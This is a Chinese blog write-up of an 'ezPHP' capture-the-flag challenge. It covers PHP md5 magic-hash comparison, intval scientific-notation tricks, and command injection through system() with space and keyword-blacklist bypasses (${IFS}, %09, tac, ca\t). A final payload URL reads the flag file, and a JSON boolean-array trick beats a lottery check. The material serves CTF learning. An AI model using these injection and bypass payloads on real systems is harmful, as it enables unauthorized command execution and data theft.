 ```yaml
---
title: ezPHP
date: 2020-11-29 23:38:11
description: 记录了md5、intval、绕过空格和黑名单
category: 信息安全
tags:
  - CTF
  - PHP
---
```

一个简单的校赛题目，卡死在了最后一步，复现一下  
题目直接给出了代码
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['tag'])){
    $tag=$_GET['tag'];
    if ($tag==md5($tag))
        echo "6啊继续.</br>";
    else
        die("爬爬爬");
}else{
    die("     ");
}
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 4040 && intval($num + 1) > 4041){
        echo "OK继续";
    }else{
        die("再试试很简单的");
    }
}else{
    die("开始第二关吧");
}
if (isset($_GET['getit'])){
    $getit = $_GET['getit'];
    if(!strstr($getit," ")){
        $getit = str_ireplace("cat", "cumtctf", $getit);
        $getit = str_ireplace("rm", "cumtctf", $getit);
        $getit = str_ireplace("mv", "cumtctf", $getit);
        echo "U R THE BEST";
        system($getit);
    }else{
        die("凉了鸭");
    }
}else{
    die("开始第三关吧");
}
?>  
```

# md5
第一部分的检测条件是`$tag==md5($tag)` ,可以用科学计数法绕过  
一些字符串经过md5()加密后，会有`0exxxxxxx`的形式，这会被PHP认为是的科学计数法，其值为`0×10^xxxxxxx`恒等于0。所以我们找一个以`0e`开头，且md5值依然以`0e`开头的字符串  
本题中，我们传入`0e215962017`,其md5值为`0e291242476940776845150308577824`,成功绕过

# intval
条件为`intval($num) < 4040 && intval($num+1) > 4041`  
其中intval用于获取变量的整数值  
如果intval函数的参数是一个字符串形式的科学计数法数字，那么intval会截取e之前的数字作为结果  
例如
```php
echo intval(2e3);
echo intval('2e3');
```
运行结果为
```php
2000
2
```
而如果传入`'2e3'+1`，则字符串会被强行转化为数字然后参与运算
```
intval('2e3'+1)=2001
```
利用此漏洞，结合题目要大于4041，我们传入`2e4`。因为变量`num`本身被定义为了字符串，所以我们不用加`''`

# 字符绕过、system函数
比赛时就是因为不熟悉system的用法而死在了flag面前。  
代码可以看出，题目检测了`cat` `rm` `mv`以及空格
## system (ls)
system — 执行外部程序，并且显示输出  
ls-显示指定工作目录下之内容  
所以传入参数`ls`查看文件名称，此时url为`http://219.219.61.234:37000/?num=0x32303231&tag=0e215962017&getit=ls`  
看到显示如下
![看到所有文件名](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/ezPHP/ezPHP1.png)
flag文件名称是`fFLLAaaaGgggg.php`
## 空格绕过
### ${IFS}和$n
可以用`${IFS}`代替空格
在Linux中，`$IFS`表示分隔符。但是`$IFS`会被当作变量的一部分，所以用`{}`固定变量  
也可以用`$IFS$1`或者`${IFS}$1`  
`$1`-`$9`表示运行时第1到第9个参数。例如在循环`n=5;n<8;n++`时，$1-$3就分别为5、6、7。`$0`表示脚本的名字  
上面的`$1`可以替换为`$1`-`$9`中的任意一个
### 重定向操作符
`>`将命令写入到文件  
`<`从文件中读入输入  
`<>`上面效果的总和  
所以在本题中，就可以用`<`或`<>`来代替空格
### %09 Tab
`%09`是Tab，即水平制表符，在PHP环境中可以代替空格
## 黑名单绕过
### 其他命令代替
本题中要用的`cat`被加入了黑名单，但其他关键字也可以读出来 
我用了`tac`读取，可以用以下关键字代替
```
tac		从最后一行开始读取文件，第一行最后显示  
head		读取前面几行  
tail		读取后面几行
nl		类似于cat -n 读取时输出行号
```
使用`tac`时，flag会被直接显示出来，其他几个命令flag都出现在注释里
![tac](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/ezPHP/ezPHP2.png)
  
![其他命令](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/main/assets/images/ezPHP/ezPHP3.png)
可能是因为`tac`倒序输出把代码打乱了，年轻人不讲武德，耗子尾汁
### 截断cat
`ca''t` `c'a't` `ca$1t` `ca""t` `c"a"t` `ca\t`都不会被识别  
加入空字符对程序没有影响，$1也是空的，"a"还是a
# 最终payload
`http://219.219.61.234:37000/?num=0x32303231&tag=0e215962017&getit=ca\t${IFS}flag.php`  
上文中各种绕过排列组合，随便组了一个
# PHP的弱类型等于==
[PHP手册-弱类型比较](https://www.php.net/manual/zh/types.comparisons.php)
## 字符串to数字
字符串和数字比较会统一转化为数字再比较  
如果该字符串没有包含`.` `e` `E`，则该字符串被当作int来取值，其他所有情况下都被作为float来取值(也就是说可以读科学计数法的)。该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为0。
```
$test=1+"-1.3e3"; //$test=-1299(float)
$test=1+'-1.3e3'; //改成单引号也一样
$test=1+"admin2";//$test=1(int)
```
## 布尔型比较
布尔型参与比较会统一转化为布尔型再比较  
只要不为0(包括`0`、`"0"`)或空转化为布尔型就都是true，这个过程其实是if(x)  
`"false"`转化结果也是true，那`"0"`凭什么不是呢？奇奇怪怪记住就行  
比如在攻防世界lottery这道题中，关键代码如下
```
for($i=0; $i<7; $i++){
	if($numbers[$i] == $win_numbers[$i]){
		$same_count++;
	}
}
```
$win_numbers是随机生成的中奖号码，$numbers是我们输入的号码，$same_count是相同个数  
bp抓包
```
{"action":"buy","numbers":"1234567"}
```
改为
```
{"action":"buy","numbers":[true,true,true,true,true,true,true]}
```
只要中奖号码该位不是0，结果就为真